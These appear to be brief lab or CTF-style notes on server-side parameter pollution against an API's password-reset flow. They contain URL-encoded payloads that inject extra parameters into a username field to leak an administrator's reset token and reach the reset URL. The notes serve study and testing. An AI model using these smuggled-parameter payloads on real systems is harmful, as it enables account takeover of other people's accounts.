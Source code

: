# API

### Server-side parameter pullution

Other Parameters?

    username=administrator%26x=y

Truncate the request with enconded chars (%23 -> #) to help interpret the server-side request

    username=administrator%23AAAA
    -> Field not specified
    username=administrator%26field=y
    -> Invalid field.
    username=administrator%26field=§1§#  (intruder -> Server Side Variable Names)
    
    Original
    username=administrator
    ->  "result":"administrator@normal-user.net",
        "type":"email"
        
Parameter Swapping?

    /static/js/forgotPassword.js
    Search for params and URLs ("?", "href", "location", etc...)
    window.location.href = `/forgot-password?reset_token=${resetToken}`
    
    
    username=administrator%26field=reset_token
    secret_token_:)
    /forgot-password?reset_token=secret_token:)
